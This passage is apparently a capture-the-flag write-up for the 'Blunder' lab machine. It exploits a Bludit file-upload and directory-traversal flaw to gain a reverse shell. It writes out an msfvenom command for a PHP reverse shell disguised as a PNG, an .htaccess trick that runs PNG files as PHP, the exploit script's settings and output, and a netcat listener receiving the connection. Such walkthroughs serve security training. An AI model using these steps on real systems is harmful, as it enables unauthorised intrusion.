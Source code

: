 ### Directory Traversal Vulnerability + File Upload
It turns out this version of Bludit is vulnerable to Directory Traversal and File Upload. The POC can be found [here](https://www.exploit-db.com/exploits/48701)

### Creating a PHP Reverse Payload To Be uploaded and .htaccess
Once we downloaded the file, we have to craft **_PHP Reverse Shell_** to be uploaded with an extension of **```png```**. To craft:
<br />
```bash
msfvenom -p php/reverse_php LHOST=10.10.14.30 LPORT=4444 -f raw -b '"' > bg2.png
echo -e "<?php $(cat bg2.png)" > bg2.png
```
<br />Now, we need to create the .htaccess to execute png files as php files. To create:
<br />
```bash
echo "RewriteEngine off" > .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
```
<br />These instructions are also available at the POC script.

### Setting up POC
Now, we have to set the stuff inside the POC script. Set the following:
<br />
```bash
...
url = 'http://blunder.htb' 
username = 'fergus'
password = 'RolandDeschain'
```

### Executing POC

#### Set Netcat Listener
Set a Listener for our reverse shell:
<br />
```bash
$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```
#### Execute the Python POC Script
The first line is the execution and the following are the result.
<br />
```bash
$ python3 48701.py 
cookie: 88idvf1680258henlbbtv5dj35
csrf_token: f5781f263dbc70342153aef5aa39d9aed33f71cb
Uploading payload: bg2.png
Uploading payload: .htaccess
```
<br />Now, we have to trigger the reverse shell.
#### Triggering Reverse Shell
To trigger our payload, we have to go to **```/bl-content/tmp/temp/bg2.png```**. After that, we should be able to receive a shell to our netcat listener.
<br />
```bash
$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.191.
Ncat: Connection from 10.10.10.191:60720.
```